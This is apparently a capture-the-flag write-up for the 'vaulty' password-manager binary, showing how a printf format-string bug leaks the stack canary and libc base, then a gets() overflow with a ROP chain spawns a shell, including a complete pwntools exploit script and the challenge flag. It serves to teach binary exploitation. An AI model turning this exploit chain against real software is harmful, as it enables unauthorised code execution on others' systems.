

## Challenge
{:style="display:block; margin-left:auto; margin-right:auto"}  

Everybody needs a password manager.  
*nc vaulty.insomnihack.ch 4556*  
*File:* [vaulty](https://static.insomnihack.ch/media/vaulty-f5d5d6e5471b625659733cff28ece1b876c7fc228b014ce1f1bad7aa768c3790)  
The application is running in a ubuntu@sha256:bbf3d1baa208b7649d1d0264ef7d522e1dc0deeeaaf6085bf8e4618867f03494 container.

## TL;DR

The given file is an ELF x86_64 binary and goal is to achieve remote code execution (RCE). The program contains a classic buffer overflow vulnerability. However, CFI mechanisms (Stack canary and ASLR) have to be dealt with before hijacking control flow. There is a second fmtstr vulnerability that allows leaking stack canary and randomized libc base. By chaining the two vulnerabilities, the vaulty binary can be successfuly pwned.

## Finding the vulnerabilities

Given that the challenge category is marked as pwn, it is almost obvious that the goal is to achieve RCE. 

### 1. Recon 
On running the binary in local environment, I got below prompt.  

{:style="display:block; margin-left:auto; margin-right:auto"}  

By trying out all the menu options, it turns out to be a password manager. An entry consists of username, password and url. We are able to add upto 10 such entries and modify/delete them.

I used [Ghidra](https://github.com/NationalSecurityAgency/ghidra) to analyze the disassembly and decompiled functions. Checksec shows that the binary is a PIE and has stack canaries.  

{:style="display:block; margin-left:auto; margin-right:auto"}

### 2. Buffer overflow 
With quick look at decompiled code, the buffer overflow in main function can be found. The main function has a buffer of size 979 bytes where all the entries are stored.
```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  undefined local_3e8 [979];
  char local_15 [5];
  long local_10;
  ...
}

```
The function that creates a new entry uses unsafe `gets()` call for reading url input. The decompiled code is shown below.
```c
    puts("Creating a new entry:");
    puts("Username: ");
    fgets((char *)&local_88,0x20,stdin);
    puts("Password: ");
    fgets((char *)&local_68,0x20,stdin);
    puts("URL: ");
    gets((char *)&local_48);
```
With this, we should be able to overflow the buffer and replace the return address in stack frame. But the binary has stack canaries, so we see this instead.  

{:style="display:block; margin-left:auto; margin-right:auto"}

### 3. Printf fmtstr injection

Digging more into the decompiled functions, I stumbled upon the following `printf()` calls in function that prints an entry (menu option 4).
```c
    __format = (char *)((long)iVar1 * 0x60 + param_1);
    printf("Username: ");
    printf(__format);
    printf("Password: ");
    printf(__format + 0x20);
    printf("Url: ");
    printf(__format + 0x40);
```
The pointer __format (named by Ghidra) points to the start of an entry. After printing each field, the pointer is incremented to next field. The original source probably used struct with three fields and printed each field. The vulnerability here is that user controlled string is passed as first argument `printf()`. This may not seem like a problem until we know about various format string features. The safe way to print would be,
```c
printf("%s", __format);    //safe
printf(__format);    //unsafe
```
By controlling the format string, we can perform arbitary read/write on the stack with `printf()`. For example, the format string `"%p"` will print the first argument as a pointer. In x86, function arguments are passed on the stack. **When there are no other arguments, like in our case, `printf("%p")` will leak the data in stack (because the argument is expected to be on stack)**. To print 5th pointer down the stack, we can use `printf("%p %p %p %p %p")` or the short notaion `printf("%5$p")`. Using this attack, we can read any arbitraty offset on the stack. Similarly, format string option `"%n"` can be used to write data into arbitrary memory addresses.
[Here](https://github.com/atxsinn3r/atxsinn3r.github.io/blob/master/writeups/format_string_leak.md) is a detailed writeup on how fmtstr vulnerability works.
> In 64-bit calling convention, first 6 arguments are passed via registers. Hence, from 7th argument `printf("%7$p")` starts leaking the stack.
{: .prompt-warning}

## Exploit 

### 1. Chaining the vulnerabilities

To get a remote code execution, I decided to replace the saved return address in stack with address of libc's `system()`. When we exit the password manager menu (option 5), the program returns from `main()`. The idea is to replace the return with a call to `system('/bin/sh')`. Since the binary is PIE, ASLR makes the address of `system()` randomized. We can use the fmtstr vulnerability to leak the libc base address to circumvent this.

#### Steps
1. Exploit fmtstr vulnerability to leak stack canary.
2. Exploit fmtstr vulnerability to leak base address of libc. Caluclate address of `system()`.
3. Exploit buffer overflow to replace the return address with `system('/bin/sh')`.

#### Overflow payload
The buffer overflow payload would be something like,
```
random (n bytes) + canary (8 bytes) + random (8 bytes) + rop-chain
```
I used Return oriented programming (ROP) to set the stack suitable for calling `system('/bin/sh')`. The ROP payload sets up `rdi` register (first argument) to address of `'/bin/sh'` before jumping to `system()`. 

### 2. Stack alignment problems
After setting up the exploit, I was able to successfully redirect control flow into libc's `system()`. However I got SIGSEGV inside `do_system()` on `movabs` instruction. With breakpoint set to `system()`, I verfied contents of the stack just before the control jumps into libc. The return address was properly replaced and `rdi` had pointer to string `/bin/sh`. This should result in successful shell, but SIGSEGV got me like,  

{:style="display:block; margin-left:auto; margin-right:auto"}

Like always, stackoverflow got me covered. This [post](https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul) explains the stack alignment requirement in x86_64. The stack has to be 16-byte aligned, found out the hard way. I added one extra `ret` gadget on top of my ROP chain to fix this.

### 3. Solve.py 
```python
from pwn import *

target = './vaulty'
# libc taken from 
# ubuntu@sha256:bbf3d1baa208b7649d1d0264ef7d522e1dc0deeeaaf6085bf8e4618867f03494 
libc = ELF('./libc.so.6')

context.log_level = 'info'
#context.terminal = ['tmux', 'splitw', '-v']
context.arch = 'amd64'

# io = gdb.debug(target, gdbscript='''
# set breakpoint pending on
# break system
# continue
# ''')
#io = process(target)
io = remote('vaulty.insomnihack.ch', 4556)

'''
Vault Menu:
1. Create an entry
2. Modify an entry
3. Delete an entry
4. Print an entry
5. Exit
Enter your choice (1-5):
'''

# create entry
io.sendline(b'1')
io.sendline(b'%11$p') #stack offset to canary
io.sendline(b'passwd')
io.sendline(b'url')

# print 0th entry to leak canary
io.sendline(b'4')
io.recvrepeat(1)
io.sendline(b'0') #entry index
io.recvuntil(b'Username: 0x')
canary = io.recv(16)
canary = int.from_bytes(bytes.fromhex(canary.decode()), 'big')
info(f'canary: {p64(canary)}')

#create entry
io.sendline(b'1')
io.sendline(b'%141$p') #stack offset to return value of main (main returns to libc)
io.sendline(b'passwd')
io.sendline(b'url')

# print 1st entry to leak libc address
io.sendline(b'4')
io.recvrepeat(1)
io.sendline(b'1')
io.recvuntil(b'Username: 0x')
libc_start_main = io.recv(12)
libc_start_main = int.from_bytes(bytes.fromhex(libc_start_main.decode()), 'big')
# from gdb: (return of main) - (libc base) = 0x276ca 
#libc.address = libc_start_main - 0x276ca
libc.address = libc_start_main - 0x29d90
info(f'libc: {p64(libc.address)}')

# modify 0th entry to overflow buffer
io.sendline(b'2')
io.sendline(b'0')

rop = ROP(libc)
rop.raw(rop.find_gadget(['ret'])) # padding for stack 16-byte alignment
rop.system(next(libc.search(b'/bin/sh\x00')))
info(rop.dump())

io.sendline(cyclic(cyclic_find('ajva')) + p64(canary) + b'B'*8 + rop.chain())
io.recvrepeat(1)

# exit menu to trigger return
io.sendline(b'5')
info(io.recvrepeat(1))
io.interactive()
```

## Getting the Flag
Once I got the shell, there was a file named `flag` present in the same directory.  

{:style="display:block; margin-left:auto; margin-right:auto"}

```bash
$ cat flag
INS{An0Th3r_P4SSw0RD_m4nag3r_h4ck3d}
```
